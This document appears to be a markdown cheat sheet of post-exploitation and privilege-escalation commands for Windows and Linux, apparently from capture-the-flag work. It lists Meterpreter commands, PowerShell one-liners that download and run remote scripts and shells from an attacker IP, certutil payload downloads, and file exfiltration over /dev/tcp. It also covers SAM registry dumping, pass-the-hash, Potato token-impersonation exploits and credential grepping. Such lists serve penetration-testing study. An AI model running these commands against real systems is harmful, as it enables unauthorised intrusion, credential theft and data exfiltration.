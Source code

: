 ## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Get Powershell
```
load powershell
powershell_shell
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows
### Manual
```
whoami /all
net user
hostname
systeminfo
tasklist /SVC
ipconfig /all
route print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
powershell -c "driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path"
powershell -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like '*VMware*'}"
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
certutil -urlcache -split -f http://192.168.119.199/windows-privesc-check2.exe
```

### Check permission
```
Get-ACL administrator | Fl *
icacls "file"
```

### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

### Run as NTAuth/System from local admin
```
PsExec.exe -i -s %SystemRoot%\System32\cmd.exe
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### Get sam
```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### Juicy Potato
```
JuicyPotato.exe -l 7777 -p C:\Users\Public\hope.exe -t *
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

## Bash
```
sockstat -l
cat .bash_history
history
sudo -l
```

### Sniffing
```
ssh 10.10.14.3@10.10.10.119 "tcpdump -i any -U -s0 -w - 'not port 22'" | wireshark -k -i -
```

### port forward
Attacker to victim
```
ssh -L attackerport:127.0.0.1:victimport user@domain
```
Victim to attacker
```
ssh -R attackerport:127.0.0.1:victimport user@attacker
```
Dynamic
```
ssh -v -N -D 9050 sean@10.11.1.251
sudo proxychains nmap -T4 -p- -sT -Pn 10.1.1.27
```
nfs tunneling
https://biowiki.org/wiki/index.php/Mounting_NFSThrough_SSHTunnel

### Move file
```
cat file > /dev/tcp/10.10.14.3/1234
```

### Find all world-writable files
```
find /bin -perm -o+w -print 2>/dev/null
```

### Find credentials
```
grep -lRi "password" ./etc 2>/dev/null | sort | uniq > files.txt
for p in $(cat files.txt); do grep password $p; done
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
```
python windows-exploit-suggester.py --database 2020-05-19-mssb.xls --systeminfo systeminfo.txt
```
### https://www.fuzzysecurity.com/tutorials/16.html
